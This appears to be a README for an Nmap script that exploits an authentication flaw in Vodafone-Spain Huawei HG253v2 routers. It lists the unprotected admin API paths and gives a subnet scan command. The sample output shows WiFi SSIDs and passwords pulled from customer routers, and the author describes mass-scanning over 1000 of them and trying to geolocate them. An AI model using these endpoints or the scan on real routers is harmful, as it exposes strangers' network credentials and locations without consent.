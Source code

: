 # http-enum-vodafone-hua253s.nse

### Introduction

Vodafone-Spain is starting to rent a new Huawei HG253v2 router to the spanish costumers. This new router is coming with a new firmware version. 

### The pre-scholar bug

I found a new security bug in that new firmware version. It is so easy to see it that I named it "the Pre-scholar bug". Basically, it is not validating the session cookie in some administration webpages:

 - http://<IP>/html_253s/api/ntwk/WlanBasic
 - http://<IP>/html_253s/api/system/diagnose_internet
 - http://<IP>/html_253s/api/system/hostinfo?type=ethhost
 - http://<IP>/html_253s/api/system/hostinfo?type=guesthost
 - http://<IP>/html_253s/api/system/hostinfo?type=homehost
 - http://<IP>/html_253s/api/system/hostinfo?type=wifihost
 - http://<IP>/html_253s/api/system/wizardcfg

So, It is possible to get direct information from those urls in any router open to internet.

### About the NSE script

This is a Nmap NSE script to search Vodafone-Spain Huawei 253s_v2 router with the port 80/tcp or 443/tcp open to Internet (via this new bug).

The script will try to get the SSID, BSSID, key-type and Password of the wifi network interface.

It was tested with:

  - HW: AV1HG253SBZDM
  - Firmware: V100R001C205B038SP0x (being x a number)

Command line and result:

```
nmap -sS -p80,443 -script http-enum-vodafone-hua253s.nse x.x.x.*

Nmap scan report for xxxxxxxx.dyn.user.ono.com (x.x.x.x)
Host is up (0.089s latency).
PORT    STATE    SERVICE
80/tcp  filtered http
443/tcp filtered https

Nmap scan report for xxxxxxx.dyn.user.ono.com (x.x.x.x)
Host is up (0.091s latency).
PORT    STATE SERVICE
80/tcp  open  http
|_http-enum-vodafone-hua253s:   SSID: vodafone851X (c4:07:2f:89:xx:xx)   Pass(AES): FSLJLMZFC3W9XX
443/tcp open  https
|_http-enum-vodafone-hua253s:   SSID: vodafone851X (c4:07:2f:89:xx:xx)   Pass(AES): FSLJLMZFC3W9XX

Nmap scan report for xxxxxxx.dyn.user.ono.com (x.x.x.x)
Host is up (0.089s latency).
PORT    STATE    SERVICE
80/tcp  filtered http
443/tcp filtered https

```

### Scope

I have checked the Spanish Vodafone network trying to guess what the real scope is and I found >1000 routers with the "correct" brand, open port to internet and the bug working.

### Experiments 

After speaking to a friend of mine, I was trying to geolocate this routers using Google geolocate API and the found BSSID. But it was not possible. The spanish BSSID (MAC address) database by google seems very poor. All my tries got a "Not found" answer :,(
Using other IP location services was worse. They are completely inaccurate.

### Notes

 - Sorry for my ugly English.
 - Oldschool is alive.
